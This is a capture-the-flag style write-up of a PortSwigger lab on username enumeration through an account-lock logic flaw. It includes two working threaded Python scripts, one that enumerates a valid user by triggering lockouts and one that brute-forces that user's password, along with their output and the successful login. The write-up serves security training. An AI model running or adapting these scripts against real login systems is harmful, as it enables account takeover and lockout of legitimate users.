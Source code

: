 # Username enumeration via account lock

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock), you'll learn: Username enumeration via account lock! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222015953.png)

**Let's try to login as an invalid user:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222020228.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222020241.png)

It displays `Invalid username or password.`.

**Let's try to use a python script to login as different users 5 times:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    listLoginRequestText = list()

    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)

    for request in listLoginRequestText:
        if 'Invalid username or password.' not in request:
            print(f'[+] Found user: {username}')

def main():
    url = 'https://0a5800d40365f484c07836ae00550058.web-security-academy.net/login'
    cookie = {'session': 'X0W6GBckB490eopZRS9bX6cI2QsFWb1v'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    for username in listUsername:
        thread = Thread(target=sendRequest, args=(url, cookie, username))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username_aclock.py 
[+] Found user: activestat
```

- Found user: `activestat`

**Let's check that account is locked or not!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222021005.png)

Yep, it's locked.

**Now, we can confirm that user `activestat` is exist, and we also able to brute force this account.**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'activestat',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username or password.' not in loginRequestText and 'You have made too many incorrect login attempts. Please try again in 1 minute(s).' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0a5800d40365f484c07836ae00550058.web-security-academy.net/login'
    cookie = {'session': 'X0W6GBckB490eopZRS9bX6cI2QsFWb1v'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_aclock.py
[+] Found password: monkey
```

- Found user `activestat`'s password: `monkey`

**Let's wait for a minute to let the account unlock and login as user `activestat`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222022442.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222022600.png)

We're user `activestat`!

# What we've learned:

1. Username enumeration via account lock